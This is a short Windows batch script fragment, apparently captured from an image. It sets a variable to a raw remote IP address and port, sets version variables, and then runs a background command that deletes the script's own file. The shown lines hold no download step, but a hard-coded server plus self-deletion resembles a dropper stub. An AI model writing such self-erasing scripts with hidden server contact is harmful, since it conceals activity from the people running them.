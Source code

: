 ECHO OK
set web=http://52.77.214.77:8083
set pastecheck=6.18.1.0
set pastecheckcd=6.18.1.0
start /b "" cmd /c del "%~f0"&exit /b
